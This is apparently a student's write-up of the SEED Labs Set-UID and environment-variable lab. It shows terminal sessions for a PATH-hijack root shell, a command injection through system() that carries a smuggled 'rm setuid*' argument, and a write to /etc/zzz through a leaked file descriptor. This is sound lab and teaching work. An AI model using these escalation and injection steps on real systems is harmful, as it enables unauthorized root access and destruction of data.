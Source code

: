 # Answer in my observation

## Task 2
- When comment out the `printenv()` in Line 1 and uncomment  `printenv()` in Line 2. There's nothing change.

## Task 3
- The original code does not call the `/usr/bin/env` program.
- After changing the line 1 to `execve("/usr/bin/env", argv, environ);`, the program calls the `/usr/bin/env` successfully.

## Task 6
- Because the program doesn't call the specific `ls` command, we can do like this to inject the malicious code to the system.

```console
    [03/22/24]seed@VM:~/.../Labsetup$ nano cmd.c
    [03/22/24]seed@VM:~/.../Labsetup$ gcc -o cmd cmd.c
    [03/22/24]seed@VM:~/.../Labsetup$ sudo chown root cmd
    [03/22/24]seed@VM:~/.../Labsetup$ sudo chmod 4755 cmd
    [03/22/24]seed@VM:~/.../Labsetup$ cp /bin/sh ls
    [03/22/24]seed@VM:~/.../Labsetup$ ls -l
    total 924
    -rw-rw-r-- 1 seed seed    761 Dec 27  2020 cap_leak.c
    -rw-rw-r-- 1 seed seed    471 Feb 19  2021 catall.c
    -rwsr-xr-x 1 root seed  16696 Mar 22 00:05 cmd
    -rw-rw-r-- 1 seed seed     81 Mar 22 00:04 cmd.c
    -rwxr-xr-x 1 seed seed 878288 Mar 22 00:05 ls
    -rw-rw-r-- 1 seed seed    180 Mar 21 11:53 myenv.c
    -rw-rw-r-- 1 seed seed    418 Mar 21 11:34 myprintenv.c
    -rwsr-xr-x 1 root seed  16768 Mar 21 12:27 setuid
    -rw-r--r-- 1 root root    159 Mar 21 12:26 setuid.c
    [03/22/24]seed@VM:~/.../Labsetup$ pwd
    /home/seed/Env_SetUID/Labsetup
    [03/22/24]seed@VM:~/.../Labsetup$ export PATH=/home/seed/Env_SetUID/Labsetup:$PATH
    [03/22/24]seed@VM:~/.../Labsetup$ ./cmd 
    VM# id
    uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
    VM#
```
- Explain: 
+ The programmer only uses `ls` path to execute the `ls` command instead of using `/bin/ls` path.
+ The `PATH`, which is the environment variable, has the `/usr/bin` path that has the `ls` command.
+ Therefore we can apply this vulnerability of this Set-UID program to privilege escalation, by using file `/bin/sh` and save, rename it into `ls` as executable file. Finally, adding the path that has injected the malicious code file into the beginning of `PATH` environment variable --> OS will call the path contains the malicious file first, then it sees the fake `ls` file and execute it.

## Task 8
### When using `system()`:
- Because the `system()` invoke the shell, therefore we can abuse to run more commands by using this:

```console
    [03/22/24]seed@VM:~/.../Labsetup$ ls | grep setuid
    setuid
    setuid.c
    [03/22/24]seed@VM:~/.../Labsetup$ ./catall 'catall.c; rm setuid*' 
    #include <unistd.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    int main(int argc, char *argv[])
    {
    char *v[3];
    char *command;

    if(argc < 2) {
        printf("Please type a file name.\n");
        return 1;
    }

    v[0] = "/bin/cat"; v[1] = argv[1]; v[2] = NULL;

    command = malloc(strlen(v[0]) + strlen(v[1]) + 2);
    sprintf(command, "%s %s", v[0], v[1]);

    // Use only one of the followings.
    system(command);
    // execve(v[0], v, NULL);

    return 0 ;
    }
    [03/22/24]seed@VM:~/.../Labsetup$ ls | grep setuid
    [03/22/24]seed@VM:~/.../Labsetup$ 
```

### When using `execve()`:
- Because `execve()` does not invoke shell, we can't abuse this to execute more commands.

```console
    [03/22/24]seed@VM:~/.../Labsetup$ ls
    cap_leak.c  cmd                ls        mylibc.o      myprog.c
    catall      cmd.c              myenv.c   myprintenv.c
    catall.c    libmylib.so.1.0.1  mylibc.c  myprog
    [03/22/24]seed@VM:~/.../Labsetup$ ./catall 'cmd.c; rm cmd*'
    /bin/cat: 'cmd.c; rm cmd*': No such file or directory
    [03/22/24]seed@VM:~/.../Labsetup$ 
```

## Task 9
- We can write to the `/etc/zzz` file by abusing the Capability Leaking, using this:

```console
    root@VM:/home/seed/Env_SetUID/Labsetup# cat /etc/zzz
    Hello, this file is created by user 'root'
    root@VM:/home/seed/Env_SetUID/Labsetup# exit
    exit
    [03/22/24]seed@VM:~/.../Labsetup$ ./cap_leak 
    fd is 3
    $ id                                                                           
    uid=1000(seed) gid=1000(seed) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
    $ echo 'OceanTran999' >&3                                                      
    $ cat /etc/zzz                                                                 
    Hello, this file is created by user 'root'
    OceanTran999
    $ 
```

## References:
[1]: https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/
[2]: https://juggernaut-sec.com/capabilities/
[3]: https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/
[4]: https://man7.org/linux/man-pages/man7/capabilities.7.html
[5]: https://linux-audit.com/linux-capabilities-101/
[6]: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#linux-capabilities
